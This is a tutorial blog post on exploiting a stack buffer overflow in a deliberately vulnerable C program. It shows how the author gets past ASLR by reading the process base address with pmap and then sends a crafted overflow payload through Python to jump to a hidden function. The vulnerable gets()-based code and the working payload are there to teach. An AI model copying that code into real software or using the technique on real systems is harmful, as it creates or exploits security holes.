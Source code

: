 ```yaml
---
title: Shattering the stack (1)
published: true
---
```


This is a follow-up to the [previous post](https://gemesa.dev/shattering-the-stack-0) where we began exploring the world of buffer overflows. Now, we will examine how to circumvent ASLR using [pmap](https://linux.die.net/man/1/pmap) (or any similar tool that can determine randomized addresses at runtime). The source code is available [here](https://github.com/gemesa/shadow-shell).

### vulnerable code

We are using the same C code to demonstrate a simple buffer overflow vulnerability (due to the use of the unsafe `gets()` function):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gets() was removed from the C11 standard
char* gets(char* str);

int authenticate(void)
{
    char buff[10];
    char cmd[10];
    int auth = 0;

    puts("enter the password:");
    gets(buff);
    
    if(strcmp(buff, "12345"))
    {
        puts("wrong password");
    }
    else
    {
        puts("correct password");
        auth = 1;

    }
    
    if(auth)
    {
        puts("authenticated");
        puts("your files:");
        strcpy(cmd, "ls");
        system(cmd);
    }

    return 0;
}

int main(void)
{
    authenticate();
    return 0;
}

void secret(void)
{
    puts("secret found!");
}
```

## exploit

Let’s compile and inspect the binary:

```
$ gcc lab/bof-server.c -g -o build/bof-server -fPIE -pie
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000150:
HAS_SYMS, DYNAMIC, D_PAGED
start address 0x0000000000001080
```

The [flags](https://sourceware.org/binutils/docs-2.23.1/bfd/BFD-front-end.html#BFD-front-end) include `DYNAMIC` which means the binary is meant to be used with dynamic linking. This flag is typically seen in shared libraries and PIE executables. We can also see a relatively low start address. For non-PIE executables the start address is usually a fixed higher address:

```
$ gcc lab/bof-server.c -g -o build/bof-server
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x0000000000401070
```

Now we verified our binary is indeed a PIE executable meaning if ASLR is activated the addresses will be randomized when we run the executable:

```
$ ./build/bof-server
enter the password:

```
Open an other terminal:

```
$ ps a | grep bof-server                                                      
  45008 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 45008
45008:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
0000561f40f3e000       4       4       0 r---- bof-server
0000561f40f3f000       4       4       0 r-x-- bof-server
0000561f40f40000       4       4       0 r---- bof-server
0000561f40f41000       4       4       4 r---- bof-server
0000561f40f42000       4       4       4 rw--- bof-server
0000561f42cf9000     132       4       4 rw---   [ anon ]
00007f20ed234000       8       4       4 rw---   [ anon ]
00007f20ed236000     152     148       0 r---- libc.so.6
00007f20ed25c000    1396     720       0 r-x-- libc.so.6
00007f20ed3b9000     308      64       0 r---- libc.so.6
00007f20ed406000      16      16      16 r---- libc.so.6
00007f20ed40a000       8       8       8 rw--- libc.so.6
00007f20ed40c000      40      28      28 rw---   [ anon ]
00007f20ed434000       4       4       0 r---- ld-linux-x86-64.so.2
00007f20ed435000     156     156       0 r-x-- ld-linux-x86-64.so.2
00007f20ed45c000      40      40       0 r---- ld-linux-x86-64.so.2
00007f20ed466000       8       8       8 r---- ld-linux-x86-64.so.2
00007f20ed468000       8       8       8 rw--- ld-linux-x86-64.so.2
00007ffcce354000     132      12      12 rw---   [ stack ]
00007ffcce37e000      16       0       0 r----   [ anon ]
00007ffcce382000       8       4       0 r-x--   [ anon ]
ffffffffff600000       4       0       0 --x--   [ anon ]
---------------- ------- ------- ------- 
total kB            2456    1244      96
```

Our goal is once again to jump to our `secret()` function:

```
$ objdump -d build/bof-server
...
0000000000001228 <secret>:
    1228:	55                   	push   %rbp
    1229:	48 89 e5             	mov    %rsp,%rbp
    122c:	48 8d 05 25 0e 00 00 	lea    0xe25(%rip),%rax        # 2058 <_IO_stdin_used+0x58>
    1233:	48 89 c7             	mov    %rax,%rdi
    1236:	e8 f5 fd ff ff       	call   1030 <puts@plt>
    123b:	90                   	nop
    123c:	5d                   	pop    %rbp
    123d:	c3                   	ret
...
```

The address `0x0000000000001228` is relative to the base address of our running process, so if it is `0x0000561f40f3e000` as we saw above then the address of `secret()` will be `0x0000561f40f3e000 + 0x0000000000001228`.

There are 2 problems:
- the base address will be only known after we run `bof-server`
- there is a high chance our address will contain non-printable characters like `\x10`, and passing these to a command-line executable can be tricky, especially if we are using a standard shell or command prompt, as these environments typically don't handle non-printable characters well in direct input

As a solution to these problems we will use the Python interpreter to run `bof-server` and pass our password (payload) to it:

```
$ python                
Python 3.11.6 (main, Oct  3 2023, 00:00:00) [GCC 13.2.1 20230728 (Red Hat 13.2.1-1)] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> cmd = ['stdbuf', '-o0', './build/bof-server']
>>> proc = subprocess.Popen(cmd, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

Note: `stdbuf -o0` sets the stdout stream buffering mode to unbuffered. This is necessary because without this some of the stdout was lost (stdout was almost empty after calling `proc.communicate()`).

Now our process is waiting for our password input so we can check the base address:

```
$ ps a | grep bof-server
  46104 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 46104
46104:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
00005651e7c8a000       4       4       0 r---- bof-server
...
```

Then calculate the address of `secret()` and pass our payload:

```
>>> hex(0x00005651e7c8a000+0x1228)
'0x5651e7c8b228'
>>> password = b'aaaaaaaaaabbbbcccccccc\x28\xb2\xc8\xe7\x51\x56'
>>> proc.stdin.write(password)
28
>>> proc.communicate()
(b'enter the password:\nwrong password\nauthenticated\nyour files:\narsenal\nbuild\nCargo.lock\nCargo.toml\nlab\nLICENSE\nMakefile\nREADME.md\ntarget\nsecret found!\n', b'')
>>> exit()
```

`proc.communicate()` returns the stdout and stderr logs. As we can see `secret()` was called because we see `secret found!` in the output.

References:
- https://reverseengineering.stackexchange.com/questions/19598/find-base-address-and-memory-size-of-program-debugged-in-gdb
